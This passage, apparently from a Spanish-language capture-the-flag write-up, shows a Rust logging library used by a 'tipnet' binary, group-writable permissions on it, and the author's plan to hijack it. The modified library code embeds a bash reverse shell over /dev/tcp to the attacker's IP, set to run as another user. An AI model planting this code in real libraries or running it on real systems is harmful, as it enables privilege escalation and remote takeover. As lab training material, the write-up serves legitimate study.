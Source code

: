 ```rust
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;

pub fn log(user: &str, query: &str, justification: &str) {
    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}
```

Si vemos sus permisos, en la parte de grupo nos dice que hay permisos de lectura y escritura para el grupo **silentobserver**:

```ruby
-rw-rw-r-- 1 atlas silentobserver  732 May  4 17:12 lib.rs
```

Y nosotros somos de ese grupo:

```ruby
uid=1001(silentobserver) gid=1001(silentobserver) groups=1001(silentobserver)
```

Sabiendo que la libreria se manda a llamar en el binario **tipnet**, y ese binario se ejecuta como **Atlas**, podemos modificar el codigo de la libreria para ejecutar un comando y que nos de una rev shell.

Y esto podria ser un: **Rust library hijacking (RW permissions)**.

Vamos a modificar el codigo para que ejecute un comando:

```rust
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;

pub fn log(user: &str, query: &str, justification: &str) {
    let command = "bash -i >& /dev/tcp/<tu IP>/444 0>&1";

    let output = Command::new("bash")
        .arg("-c")
        .arg(command)
        .output()
        .expect("ERROR");

    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
```